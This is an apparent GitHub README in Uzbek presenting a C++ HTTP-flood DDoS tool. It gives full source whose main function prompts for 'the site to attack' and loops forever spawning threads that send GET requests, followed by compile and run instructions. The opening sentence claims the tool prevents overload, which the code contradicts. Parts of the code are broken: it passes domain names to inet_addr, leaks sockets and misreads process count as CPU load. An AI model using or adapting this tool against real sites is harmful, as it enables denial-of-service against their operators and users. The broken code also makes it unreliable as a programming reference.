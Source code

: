 ### C++ Ddos Hujum Dasturi

Ushbu dasturning maqsadi, berilgan domen yoki IP manziliga HTTP so'rovlari yuborish va tizimning resurslarini tekshirish orqali, tizimning haddan tashqari yuklanishini oldini olishdir. Dastur shuningdek, har bir HTTP so'rovini va uning javobini terminalda ko'rsatadi va log faylga saqlaydi.

### 1. Dastur Tuzilishi

#### 1.1. Kutilayotgan funksiyalar
- **HTTP so'rovi yuborish:** So'rovni yuborish uchun soket (socket) yaratish va unga HTTP so'rovini jo'natish.
- **Tizimning holatini tekshirish:** Tizimda resurslar (xotira, CPU) juda band bo'lsa, so'rovlar yuborish sekinlashtiriladi.
- **Terminalda ko'rsatish:** Har bir yuborilgan so'rov va uning javobi terminalda ko'rsatiladi.
- **Log faylga saqlash:** Har bir so'rov va javob log faylga yoziladi.

### 2. Dastur Kodini Tushuntirish

```cpp
#include <iostream>
#include <string>
#include <thread>
#include <chrono>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <sys/sysinfo.h>
#include <fstream>
```
- **`#include`** - Bu yerda turli kutubxonalar kiritilgan:
  - `iostream` - Konsolga ma'lumot chiqarish va kiritish uchun.
  - `string` - Matnli ma'lumotlar bilan ishlash uchun.
  - `thread`, `chrono` - Tizimni sekinlashtirish va ko'p jarayonlarda ishlash uchun.
  - `sys/socket.h`, `arpa/inet.h`, `unistd.h` - Soketni yaratish va tarmoqda ishlash uchun.
  - `sys/sysinfo.h` - Tizimning holatini tekshirish uchun.
  - `fstream` - Log faylga yozish uchun.

#### 2.1. `send_http_request` funksiyasi

Bu funksiya HTTP so'rovini yuboradi:

```cpp
void send_http_request(const std::string& host, const std::string& path, std::ofstream &log_file) {
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == -1) {
        std::cerr << "Soketni yaratishda xatolik!" << std::endl;
        return;
    }

    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(80);  // HTTP porti
    server.sin_addr.s_addr = inet_addr(host.c_str());

    if (connect(sock, (struct sockaddr*)&server, sizeof(server)) == -1) {
        std::cerr << "Serverga ulanishda xatolik!" << std::endl;
        return;
    }

    std::string request = "GET " + path + " HTTP/1.1\r\n";
    request += "Host: " + host + "\r\n";
    request += "Connection: keep-alive\r\n";
    request += "\r\n";

    send(sock, request.c_str(), request.length(), 0);
    std::cout << "So'rov yuborildi: " << request << std::endl;

    char buffer[1024];
    int bytes_received = recv(sock, buffer, sizeof(buffer), 0);
    if (bytes_received > 0) {
        buffer[bytes_received] = '\0';  // Null terminator qo'shish
        std::cout << "Javob: " << buffer << std::endl;
        log_file << "So'rov: " << request << std::endl;
        log_file << "Javob: " << buffer << std::endl;
    }

    close(sock);
}
```

- **Soket yaratish:** `socket(AF_INET, SOCK_STREAM, 0)` yordamida soket yaratiladi.
- **Serverga ulanish:** IP manzilini olish va serverga ulanish uchun `connect()` funksiyasi ishlatiladi.
- **HTTP so'rovi yuborish:** Yaratilgan so'rov HTTP formatida serverga yuboriladi.
- **Javob olish va ko'rsatish:** Serverdan javob olinadi va terminalga chiqariladi.
- **Log faylga saqlash:** So'rov va javoblar log faylga yoziladi.

#### 2.2. `is_system_overloaded` funksiyasi

Bu funksiya tizimning holatini tekshiradi (xotira va CPU yukini):

```cpp
bool is_system_overloaded() {
    struct sysinfo sys_info;
    if (sysinfo(&sys_info) != 0) {
        std::cerr << "Tizim haqida ma'lumot olishda xatolik!" << std::endl;
        return false;
    }

    long long free_memory = sys_info.freeram / 1024 / 1024;  // MB
    long long total_memory = sys_info.totalram / 1024 / 1024;  // MB
    float memory_usage = (float)(total_memory - free_memory) / total_memory * 100;

    int num_processors = sys_info.procs;
    if (memory_usage > 90 || num_processors > 80) {
        return true;
    }

    return false;
}
```

- **Tizim haqida ma'lumot olish:** `sysinfo()` funksiyasi orqali tizimning xotira va CPU holati olinadi.
- **Resurs yukini tekshirish:** Xotira va CPU yukini tekshirib, ularning ma'lum bir limitdan yuqori bo'lsa, tizimni haddan tashqari yuklamaslik uchun `true` qaytariladi.

#### 2.3. `start_attack` funksiyasi

Bu funksiya hujumni boshlaydi:

```cpp
void start_attack(const std::string& host, const std::string& path, std::ofstream &log_file) {
    while (true) {
        if (is_system_overloaded()) {
            std::this_thread::sleep_for(std::chrono::milliseconds(500));  // Tizimni haddan tashqari yuklamaslik uchun
        } else {
            std::thread(send_http_request, host, path, std::ref(log_file)).detach();
        }
        std::this_thread::sleep_for(std::chrono::milliseconds(100));  // Har bir so'rov orasida qisqa kechikish
    }
}
```

- **Yukni tekshirish:** Agar tizim juda yuklangan bo'lsa, so'rov yuborilmaydi va 500 millisekundga kutib turiladi.
- **So'rov yuborish:** `send_http_request` funktsiyasi alohida ipda ishlatiladi (`std::thread` yordamida).

#### 2.4. `main` funksiyasi

`main` funksiyasi foydalanuvchidan domenni qabul qilib, hujumni boshlaydi:

```cpp
int main() {
    std::string host;
    std::string path = "/";  // O'zgartirish mumkin

    std::cout << "Hujum qilinadigan saytning domenini kiriting (masalan: example.com): ";
    std::cin >> host;

    std::ofstream log_file("attack_log.txt", std::ios::out | std::ios::app);
    if (!log_file.is_open()) {
        std::cerr << "Log faylini ochishda xatolik!" << std::endl;
        return 1;
    }

    std::cout << "Hujum boshlanadi..." << std::endl;

    start_attack(host, path, log_file);

    return 0;
}
```

- **Foydalanuvchi kiritgan domenni olish:** `std::cin` orqali foydalanuvchidan domen nomi kiritiladi.
- **Log faylini ochish:** Log faylga yozish uchun `std::ofstream` yordamida fayl ochiladi.
- **Hujumni boshlash:** `start_attack` funksiyasi yordamida hujum boshlanadi.

### 3. Dastur Ishga Tushirish

#### 3.1. Dasturga kerakli kutubxonalarni o'rnatish

**Ubuntu/Linux tizimlarida** quyidagi kutubxonalar o'rnatilishi kerak:
```bash
sudo apt-get install build-essential
```

#### 3.2. Dastur Faylini Saqlash

1. Dastur kodini `.cpp` kengaytmali faylga saqlang, masalan `ddos_attack.cpp`.

#### 3.3. Dastur Kompilyatsiyasi

Dastur faylini kompilyatsiya qilish uchun quyidagi komandani bajarish kerak:

```bash
g++ ddos_attack.cpp -o ddos_attack -pthread
```

#### 3.4. Dastur Ishga Tushurish

Kompilyatsiya qilingan dasturni quyidagi komandani bajarib ishga tushiring:

```bash
./ddos_attack
```

#### 3.5. Domen Kiriting

Dastur sizdan hujum qilmoqchi bo'lgan saytning domenini so'raydi. Misol uchun, `example.com` deb kiritishingiz mumkin.

#### 3.6. Log Faylni Tekshirish

Hujum davomida barcha so'rovlar va javoblar `attack_log.txt` log fayliga yoziladi. Faylni ko'rish uchun:

```bash
cat attack_log.txt
```
